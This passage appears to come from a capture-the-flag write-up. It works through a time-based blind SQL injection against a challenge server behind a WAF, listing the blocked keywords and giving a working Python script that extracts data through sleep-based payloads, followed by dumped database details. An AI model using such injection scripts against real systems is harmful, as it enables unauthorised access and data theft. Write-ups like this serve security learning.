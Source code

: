 So I guess the SQL query may look like `INSERT INTO xxx VALUES ('id', 'pw', 'ac')`

(after input `1'+'2`, the value of ac in `/?p=info` is `3`)

<br>

After fuzzing, I found that there is WAF behind the website.

If I input `group_concat`, `group by`, `where`, `order`, `limit`, `'''`, `''''`, ..., the response text is `no hack`.

I can still dump some basic information by this script (time based sql injection):

```python
import requests
import random
import time

while True:
    sql = raw_input(":")

    res = ''
    for tl in range(30):
        l = 20
        r = 140
        while l <= r:
            if l == r:
                res += chr(l)
                print(l, chr(l))
                print(res)
                break
            m = (l + r) // 2
            print "now:"+str(m)
            ac = "'||if(ascii(mid({},{},1))>{}, sleep(2),1)=1||'1".format(sql, tl+1, m)
            t1 = int(time.time())
            req = requests.post("http://110.10.147.112/?p=reg", data={'id':'kaizzzbro666'+str(random.randint(1,500)),'pw':'kaibro', 'ac':ac})
            # print r.text
            t2 = int(time.time())

            if t2 - t1 >= 2:
                l = m + 1
            else:
                r = m
```

```
user(): db_manager@localhost
database(): userdata
version(): 5.7.25-0ubuntu0.18.04.2
```

But it is a little hard to dump schema name, table name, column name by this script.

After discussing, we found a method can dump schema_name, table_name and column_name:
